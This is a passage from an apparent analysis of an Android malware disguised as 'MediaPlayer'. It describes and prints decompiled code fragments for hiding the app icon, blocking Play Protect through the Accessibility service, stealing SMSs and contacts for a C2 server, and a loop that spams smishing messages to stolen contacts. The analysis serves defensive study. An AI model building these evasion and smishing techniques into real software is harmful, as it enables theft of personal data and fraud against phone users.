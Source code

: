 ```cs
                        }
                    }
                    catch(Exception unused_ex) {
                        return;
                    }

                    ActivityInjection.this.finishAndRemoveTask();
                }
}
```

# Presistance

After installing the malware, the malware will hide its icon and only the name of the malware `MediaPlayer` is visible. After enabling the `Accessibility service`, the malware will hide the icon and the name of the malware. And if the user goes to the app from the settings, the malware will bring the screen to the `Home screen`. And disable `Play protect`, not to label it as malicious and it won't delete the malware. This happens because you enabled `Accessibility service`, so don't enable `Accessibility service` next time.

```cs
 protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        Bundle bundle1 = this.getIntent().getExtras();
        if(bundle1 != null && (bundle1.getBoolean("CLOSE"))) {
            this.Tools.Log(this, "[Activity Play Protect] Redirecting to Google Play Services", Boolean.valueOf(false));
            this.Tools.goToPlayStoreSomething(this, "com.google.android.gms");
            this.finish();
            return;
        }
 }
```

# steal SMSs and contacts then smishing

The malware will try to steal the stored SMSs from the user's device. And send them to the C2 server using `ALL_SMS` command. And the malware will steal all the contacts and send them to the C2 server using `GET_CONTACTS` command. After stealing the contacts, the malware will try smishing these stolen contacts by sending spam SMSs messages to download malicious APPs using `SEND_SMS` command. 

```cs
 public void run() {
        try {
            String s = this.phoneNumbers;
            if(s != null) {
                boolean z = s.contains(":");
                int v = 0;
                if(!z) {
                    this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + this.message + " to " + this.phoneNumbers, Boolean.valueOf(false));
                    this.sendMSG(this.phoneNumbers, this.message);
                    return;
                }

                String[] arr_s = this.phoneNumbers.split(":");
                this.Tools.Log(this.ctx, "[SMSSender] Sending SMS: " + this.message + " to " + arr_s.length + " numbers.", Boolean.valueOf(false));
                while(v < arr_s.length) {
                    String s1 = arr_s[v];
                    Thread.sleep(0x460L);
                    this.sendMSG(s1, this.message);
                    ++v;
```